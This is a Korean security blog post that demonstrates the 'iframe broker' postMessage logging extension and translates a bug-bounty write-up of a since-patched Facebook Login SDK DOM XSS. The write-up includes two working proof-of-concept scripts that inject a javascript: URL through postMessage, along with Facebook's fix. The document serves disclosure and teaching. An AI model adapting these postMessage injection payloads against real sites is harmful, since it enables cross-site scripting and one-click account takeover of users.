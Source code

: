 ```yaml
---
layout: post
title:  "iframe broker & Story of Facebook DOM XSS"
author: "jeong.su"
comments: true
tags: [web]
---
```



> **2020.05**
라온화이트햇 핵심연구팀 최정수
jeon95u@gmail.com

이 글은 [Vinoth Kumar](https://vinothkumar.me/)가 지난 4월 Facebook의 DOM XSS를 발견하여 제보하고 2만 달러의 포상금을 받은 [게시글](https://vinothkumar.me/20000-facebook-dom-xss/)을 번역한 내용이 포함되어 있습니다. 추가로 해당 취약점을 찾기 위해 [Vinoth Kumar](https://vinothkumar.me/)가 개발한 Iframe과 Cross Window communications 로그를 쉽게 확인 할 수 있는 크롬 익스텐션을 사용하고 어떻게 적용할 수 있을지 고민했습니다.

---

# iframe broker

---

iframe broker는  [Vinoth Kumar](https://vinothkumar.me/)가 Cross Window Communication 로그를 쉽게 확인하기 위해서 작성한 Chrome Extension 입니다.

해당 도구의 간단한 원리는 message를 후킹하여 보여주는 방식입니다

Javascript는 아래와 같이 간단한 스크립트로 후킹할 수 있습니다.

```jsx
var origin_parse = window.JSON.parse;

window.JSON.parse = function(arg){
/* Something Do It! */
/* ex) console.log(arg) */
return origin_parse(arg);
}
```

iframe broker의 사용법은 아래와 같습니다.

```bash
git clone https://github.com/vinothsparrow/iframe-broker
```

우선 git clone 명령어를 통해 특정 폴더에 iframe-broker를 받아줍니다.

![/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png](/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png)

Chrome Extension 추가를 위해 개발자 모드 옵션을 활성화 시켜줍니다. 해당 옵션을 활성화 시켜주게되면 `압축해제된 확장 프로그램을 로드합니다.` 버튼이 생기며 클릭을 통해 clone 해준 iframe-broker 폴더를 선택해줍니다.

![/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png](/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png)

Iframe Broker가 정상적으로 로드된 것을 확인 할 수 있습니다.

![/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png](/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png)

위와 같이 Chrome Extension을 통해 Domain간 통신하는 메세지를 쉽게 확인 할 수 있으며 클라이언트 사이드의 취약점을 찾는데 편리한 도구라는 생각이듭니다. 아래는 해당 Chrome Extension 개발자가 개발 후 Extension을 사용하면서 직접 취약점을 찾은 내용을 번역했습니다.

# Story of [$20000 Facebook DOM XSS](https://vinothkumar.me/20000-facebook-dom-xss/)

---

> window.postMessage() method를 사용하면 생성 된 페이지와 팝업 사이 또는 페이지와 페이지에 포함된 iframe 사이와 같은 Window 객체 간의 cross-origin 통신을 안전하게 할 수 있습니다. - [Mozilla postMessage Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

postMessage 및 도메인 간 통신에 대해 더 알고 싶다면 아래 문서를 읽는 것이 좋습니다.

- [How cross window/frame communication happens in Javascript](https://javascript.info/cross-window-communication)
- [https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/)
- [https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/](https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/)

## Background

> postMessage를 통한 DOM XSS는 과소 평가 된 취약점이며 많은 버그바운티 헌터들에게는 눈에 띄지 않는 취약점입니다.

최근에 open dashboards 및 credentials 취약점을 찾는 대신 클라이언트 쪽 취약점을 찾기 시작했습니다.

([HackerOne에 리포트된 보고서](https://hackerone.com/vinothkumar)를 본다면 대부분 나의 리포트는 open dashboard 또는 Github credential leak 입니다.) 

처음에는 XSSI, JSONP 및 postMessage 관련 된 보안 문제를 찾기 시작했습니다. 그러나 XSSI 및 JSONP 취약점은 매우 드물며 [SameSite 쿠키](https://blog.reconless.com/samesite-by-default/)가 도입 된 이후 이 취약점은 사라질 것입니다. 따라서 postMessage 취약점을 살펴 보는 데 집중했습니다. postMessage 취약점은 주로 보안 연구원이 대부분 무시하지만 디버깅이 쉽고 방화벽을 우회 할 필요가 없습니다.

또한 디버깅을 더 쉽게하기 위해 페이지에서 발생하는 cross window communication의 view/log를 위한 [Chrome extension을 개발](https://github.com/vinothsparrow/iframe-broker) 했습니다.

일반적으로 웹 사이트는 위젯, 플러그인 또는 웹 SDK에서 iframe 통신을 사용합니다. 따라서 페이스북의 iframe 보안 문제를 찾으려고 시작하자마자 [https://developers.facebook.com](https://developers.facebook.com/)으로 이동하여 Facebook의 third-party 플러그인을 보기 시작했습니다.

그리고 cross-domain 통신을 위해서 `Facebook Login SDK for JavaScript`는 `v6.0/plugins/login_button.php`에서 proxy iframe을 만들며 proxy frame에서는 `Continue with Facebook` 버튼을 렌더링 해줍니다. 여기서 흥미로운 점은 javascript SDK가 proxy frame에 버튼의 클릭 URL이 포함 된 초기화 페이로드를 전송 한다는 것입니다.

로그인 SDK의 흐름은 아래와 같습니다.

```jsx
Third-Party website + (Facebook Login SDK for JavaScript)
```

↓

```jsx
<iframe src='https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&button_type=continue_with&channel=REDIRECT_URL&sdk=joey'>
</iframe>
```

↓

```jsx
// Facebook Javascript SDK는 초기화 payload를 iframe proxy에게 보냅니다.
iframe.contentWindow.postMessage({"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'INT_ID',
'url':'https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID&SOME_OTHER_PARAMS',
'size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971'screenWidth':1680}}})},"origin":"APP_DOMAIN"}, '*')
```

↓

```jsx
// 유저가 Login with Facebook 버튼을 클릭하면 proxy iframe에서 특정 URL을 open 합니다.
window.open('https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID')
```

↓

```jsx
// 팝업 윈도우는 accesstoken과 signed-request를 third-party website에게 postMessage를 사용하여 보냅니다.
window.opener.parent.postMessage(result, origin)
```

해당 초기화 payload를 주의 깊게 살펴보면 SDK가 Facebook 플러그인 iframe으로 전송합니다. url 파라미터는 i라는 변수에 저장 되며 버튼이 클릭 되어 이벤트가 트리거 될 때 아래 함수가 실행됩니다.

![/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png](/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png)

```jsx
i.url = i.url.replace(/cbt=\d+/, "cbt=" + a);
a = window.open(i.url, i.id, b("buildPopupFeatureString")(i));
```

위 Javascript 코드를 보았을 때 나는 "무언가 왔구나! 취약점이 내게 왔구나! 😉"를 느꼈습니다.

왜냐하면 Javascript 코드에는 URL/Scheme 유효성 검사가 존재하지 않았습니다. 따라서 아래와 같이 DOM XSS를 할 수 있었습니다.

`window.open('javascript:alert(document.domain)')`

그래서 우리가 `url:'javascript:alert(document.domain)'`와 같은 페이로드를 보내는 경우 받는 사람은 iframe이 [`https://www.facebook.com/v6.0/plugins/login_button.php`](https://www.facebook.com/v6.0/plugins/login_button.php)를 방문하고 사용자가 `Continue With Facebook`버튼을 클릭하게 되면  [facebook.com](http://facebook.com/) 도메인에서 `javascript:alert(document.domain)`와 같은 Javascript가 실행됩니다. 

## Exploiting the Iframe

위 보안 이슈를 통해 익스플로잇 하는 방법은 2가지가 있습니다.

### 1. Pop-up Method

```jsx
<script>   
   var opener = window.open("https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true","opener", "scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=500,height=1");
   
   setTimeout(function(){
        var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
        opener.postMessage(message, '*');
    },'4000');
</script>
```

### 2. Iframe Method

`X-Frame-Options` 또는 CSP `frame-ancestors` 헤더가 누락 되었으므로 이 페이지는 공격자의 페이지에 쉽게 포함될 수 있습니다.

```jsx
<script>
function fbFrameLoaded() {
  var iframeEl = document.getElementById('fbframe');
  var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
  iframeEl.contentWindow.postMessage(message, '*');
};
</script>
<iframe id="fbframe" src="https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true" onload="fbFrameLoaded(this)"></iframe>
```

## Fix

Facebook은 `url` 파라미터에 정규식 검사를 추가하여 domain과 schema가 존재하는지 확인하는 방법으로 패치했습니다.

```jsx
d = b("isFacebookURI")(new (g || (g = b("URI")))(c.call.url)),
j = c.call;
d || (j.url = b("XOAuthErrorController").getURIBuilder().setEnum("error_code", "PLATFORM__INVALID_URL").getURI().toString())
```

## Proof of Concept

[https://youtu.be/KAnuFy2F7QA](https://youtu.be/KAnuFy2F7QA)

## Impact

잘못된 post message 설정 때문에 누군가는 공격자의 웹세이트에 접속하고 페이스북으로 로그인하기 버튼을 클

릭함으로써 [facebook.com](http://facebook.com) 도메인에 XSS가 발생하고 **한 번의 클릭 만으로 계정을 탈취** 할 수 있습니다.